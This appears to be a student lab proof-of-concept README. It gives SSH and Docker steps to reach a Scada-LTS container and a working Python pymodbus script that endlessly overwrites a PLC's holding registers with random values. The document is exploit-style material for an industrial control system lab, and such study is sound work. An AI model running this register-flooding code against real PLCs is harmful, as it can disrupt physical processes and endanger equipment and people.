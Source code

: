 # Proof of concept
- Connect to the server with `ssh -D 1080 mcsestudent@145.52.126.50`
- Enter the Scada-LTS container with `sudo docker exec -it scadalts /bin/bash`
- Install pip and [pymodbus](https://pypi.org/project/pymodbus/)

```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

- Run the code. There is no `nano` or `vim` but we can use `echo` to write to a file.
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

![](img/random_modbus.png)
